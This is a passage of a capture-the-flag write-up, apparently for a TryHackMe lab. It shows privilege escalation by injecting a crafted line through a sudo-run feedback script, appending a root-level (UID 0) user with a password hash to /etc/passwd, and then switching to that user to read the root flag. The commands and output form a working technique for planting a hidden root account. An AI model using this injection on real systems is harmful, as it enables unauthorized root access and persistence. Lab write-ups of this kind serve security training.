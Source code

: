 Then, we append this entry in the `/etc/passwd` with a new user called `nuser` with the UID and GID at `0` (so root).

```shell
nuser:$6$LzGlf10v8QfV4Ush$Svictmz8nB3EXhM3E9QDP.jjVW99TqXRDDUR9YSkP.SD4q/2yYAF2zQot5ZonF0pncGSLeJ5K3/74hTRp.Vyo1:0:0:New User:/home/nuser:/bin/bash
```

We launch the script and enter our specific entry :
```shell
$ sudo ./feedback.sh
Hello, Welcome to the Report Form
This is a way to report various problems
    Developed by
        The Technical Department of U.A.
Enter your feedback:
'nuser:$6$LzGlf10v8QfV4Ush$Svictmz8nB3EXhM3E9QDP.jjVW99TqXRDDUR9YSkP.SD4q/2yYAF2zQot5ZonF0pncGSLeJ5K3/74hTRp.Vyo1:0:0:New User:/home/nuser:/bin/bash' >> /etc/passwd
It is This:
Feedback successfully saved.
```

```shell
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[....]
nuser:$6$LzGlf10v8QfV4Ush$Svictmz8nB3EXhM3E9QDP.jjVW99TqXRDDUR9YSkP.SD4q/2yYAF2zQot5ZonF0pncGSLeJ5K3/74hTRp.Vyo1:0:0:New User:/home/nuser:/bin/bash
```

Now we can switch to that user (with `su - nuser`) and retrieve the root flag :

![10](/assets/img/tryhackme/ctf/uahighschool/10.png)